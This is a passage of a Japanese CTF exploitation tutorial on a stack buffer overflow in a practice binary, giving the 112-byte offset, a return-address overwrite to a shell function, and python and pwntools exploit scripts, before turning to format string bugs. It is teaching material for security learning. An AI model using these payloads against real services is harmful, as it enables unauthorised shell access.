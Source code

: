 という文字の入力に対して```OPQR```がeipになったことからそれまでの文字列の長さがリターンアドレスまでのオフセットになっていると考察できる。これは112文字である。

このあとリターンアドレスを何に書き換えたいのかと言えば、shellのアドレスである。shellのアドレスは、objdumpの出力から0x80484fdである。以上より、112文字のオフセットのあとに、この関数アドレスを足した文字列を送り込む。ところで、関数アドレスはリトルエンディアンと言って([参照：エンディアン Wikipedia](https://ja.wikipedia.org/wiki/%E3%82%A8%E3%83%B3%E3%83%87%E3%82%A3%E3%82%A2%E3%83%B3#.E3.83.AA.E3.83.88.E3.83.AB.E3.82.A8.E3.83.B3.E3.83.87.E3.82.A3.E3.82.A2.E3.83.B3))、例えば4バイトの数は後ろから順番にメモリに格納される、という事実に注意する。

また、プログラムの実行に関しては本番を想定して次のように行う。

```
socat TCP-L:3000,reuseaddr,fork EXEC:./echo2
```

これにより、ポート3000にアクセスすると、サーバーとの通信をしているような形で問題を解くことができる

```
$ nc localhost 3000
**Greeting service**
What's your name: moratorium08
Hello, moratorium08
```

また、この場合、外部との通信をやりとりするには、

```
$ python -c "print('A' * 112 + '\xfd\x84\x04\x08')" > dump
$ cat dump - | nc localhost 3000
```
のようにしてもよいが、pythonのライブラリ（特にpwn用に作られたライブラリ）を使うと、細かいことを気にせずスクリプトがかけて便利である。pwntoolsというのが個人的に便利だと思っていて、

```
$ pip install pwntools
```
でインストール可能である。


```
# coding:utf-8
from pwn import remote, p32

host = "127.0.0.1"
port = 3000

r = remote(host, port)

r.recvuntil("name: ")

code = "A" * 112  # dummy
code += p32(0x80484fd)
print(code)
r.sendline(code)

r.interactive()
```

### フォーマットストリングバグ

　比較的構造が簡単で、有名な脆弱性としてスタックのBOFと双璧をなすのがフォーマットストリングバグである。これは、最初にReversingの例として提示したプログラムがそれに当たる。それを再掲する。
